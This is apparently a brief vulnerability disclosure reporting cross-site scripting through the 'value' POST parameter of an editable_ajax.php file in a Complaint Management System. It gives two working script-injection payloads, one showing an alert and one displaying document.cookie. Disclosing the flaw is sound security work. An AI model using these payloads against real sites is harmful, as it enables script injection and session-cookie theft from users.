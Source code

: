 BUG_Author: 1406213367

Vulnerability File: /Complaint Management System/admin/assets/plugins/DataTables/examples/examples_support/editable_ajax.php

POST parameter 'value' exists XSS vulnerability

Payload1:value=1><script>alert(666)</script>

![image](https://github.com/1406213367/bug_report/blob/main/xss1.png)

Payload2:value=1><script>alert(document.cookie)</script>

![image](https://github.com/1406213367/bug_report/blob/main/xss2.png)
